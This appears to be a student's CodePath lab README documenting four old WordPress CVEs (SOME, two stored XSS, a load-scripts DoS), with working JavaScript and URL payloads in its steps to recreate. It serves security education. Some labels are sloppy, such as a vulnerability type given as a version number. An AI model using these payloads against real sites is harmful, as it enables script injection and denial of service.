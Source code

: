 # CodePathweek7
# Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

Exploit 1. CVE-2016-4566 Upload Same Origin Method Execution (SOME)
  - [ ] Summary: 
    - Vulnerability types: Same Origin Method Execution (SOME)
    - Tested in version: 4.2
    - Fixed in version: 4.2.8
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit1.gif
  - [ ] Steps to recreate: 
  
        1. Reply to an existing comment
        
        2. Using Javascript use the following code:
            <button onclick="fire()">Click</button>
            <script>
            function fire() {
             open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload /plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
              setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
            }
            </script>
            
        3. The following script will use an exploit that will create a malicious button that when clicked will take the user to a fake    website example.com
        
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/37382/)
    
Exploit 2. CVE-2015-3440 Unauthenticated Stored Cross Site-Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross Site-Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit2.gif
  - [ ] Steps to recreate: 
  
        1. Create a new post
        
        2. In the post body, write this code:
            a) It must contain an XSS injection content, followed by at least 64 kilobytes of text
                Example: 
                    <a title='x onmouseover=alert(unescape(/hello%20world/.source))
                    style=position:absolute;left:0;top:0;width:5000px;height:5000px
                    AAAAAAAA.. (for 64 kb)....AAAAAA
                    
        3. Save and reload the site
        
        4. WordPress will truncate the comment allowing the injected content to be posted on the site
            a) A pop up message of "Hello World" will pop up on mouse move
            
  - [ ] Affected source code:
    - [Link 2](https://core.trac.wordpress.org/changeset/32299)
    - [Link 2.1](https://www.exploit-db.com/exploits/36844/)
    - [Link 2.2](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440)
    
Exploit 3. CVE-2018-6389 Application Denial of Service (DoS)
  - [ ] Summary: 
    - Vulnerability types: 4.2
    - Tested in version: 4.9.4
    - Fixed in version: unpacthed
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit3.gif
  - [ ] Steps to recreate:
  
          1. When the site is loading, you need to paste the following at the end of the URL
              /wp-admin/load-scripts.php?c=1&load=editor,common,user-profile,media-widgets,media-gallery
              
          2. With the script now in the URL, reload the webpage and it tries to find the JavaScript file name (ediotr,common, etc.)
          
          3. The webpage will then find all the information and return it to the users webpage in a single file
        
  - [ ] Affected source code:
    - [Link 3](https://wpvulndb.com/vulnerabilities/9021)
    
Expoint 4: CVE-2017-6817 Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types:  Cross-Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  
        1. Create a new post
        
        2. In the post body, write this code:
            [embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed]
            
        3. Save your changes, when you go to the post on the site you will see an embeded link
        
        4. Click the embeded link and a alert window will pop up with the message “No Body Is Safe!”
        
  - [ ] Affected source code:
    - [Link 4](https://wpvulndb.com/vulnerabilities/8768) 
    
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018 Oleksandr Bihary

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
